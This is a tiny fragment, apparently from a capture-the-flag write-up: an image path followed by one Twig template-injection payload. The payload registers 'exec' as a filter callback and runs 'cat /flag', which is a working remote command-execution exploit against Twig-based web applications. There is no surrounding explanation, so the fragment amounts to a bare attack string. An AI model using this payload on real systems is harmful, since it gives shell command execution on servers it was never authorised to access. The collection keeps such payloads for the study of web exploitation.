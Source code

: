 - ```
  {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
  ```